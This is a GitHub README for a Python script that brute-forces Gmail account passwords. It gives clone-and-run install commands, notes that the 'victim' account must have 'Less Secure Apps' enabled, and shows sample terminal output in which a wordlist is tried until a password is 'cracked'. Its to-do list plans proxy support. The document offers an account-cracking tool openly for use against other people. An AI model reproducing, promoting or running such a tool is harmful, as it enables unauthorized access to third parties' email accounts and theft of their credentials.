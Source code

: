 
Powerful, Robust and Efficient tool for bruteforcing Gmail accounts written in python3.

### Installation

**Pre requisties:** 
- `git`
- `python3`

1. For windows

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce
cd GmailBruteforce/
python3 main.py
```
1. For Mac/Linux

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce
cd GmailBruteforce/
chmod +x main.py
./main.py
```
## NOTE

In order to bruteforce any gmail account with this tool the victim account must have **Less Secure Apps** turned on.

For more details see [Why you need to turn ON less secure apps](https://support.google.com/accounts/answer/6010255?hl=en)

Read this [article by devnews](https://devanswers.co/allow-less-secure-apps-access-gmail-account/) to turn ON **Less secure apps.**

## Usage

**Pre requisties:**  

- Victim's Gmail account.
- Wordlist for bruteforcing.

This tool comes with a wordlist pre-installed.

```bash
┌──(kali㉿kali)-[~/GmailBruteforce]
└─$ python3 main.py

[?] Enter email adress: test@gmail.com
[?] Enter wordlist path: wordlist.txt
Starting bruteforcing...

[!] Incorrect password: 123456
[!] Incorrect password: 12345
[!] Incorrect password: 123456789
[!] Incorrect password: password                        
[!] Incorrect password: iloveyou
[!] Incorrect password: princess
[!] Incorrect password: 1234567                         
[!] Incorrect password: 12345678                        
[!] Incorrect password: abc123
[!] Incorrect password: nicole                          
[!] Incorrect password: daniel                         
[!] Incorrect password: babygirl                       
[!] Incorrect password: monkey
[!] Incorrect password: lovely
[!] Incorrect password: jessica
[!] Incorrect password: michael
[!] Incorrect password: ashley
[!] Incorrect password: qwerty
[!] Incorrect password: 111111
[!] Incorrect password: iloveu
[!] Incorrect password: 000000
[!] Incorrect password: michelle
[!] Incorrect password: tigger
[!] Incorrect password: sunshine
[+] Correct password: chocolate
[+] Password cracked!

[*] Script finished!
[*] Time Elapsed: 18 seconds.
```

You've to specify the Gmail address and path to wordlist in the input section.

## TODO

- Use proxies for better efficiency.
- Commamd line version with flags.

### Support

Having trouble with Tool? [Report an Issue](https://github.com/Sarthak2143/GmailBruteforce/issues).
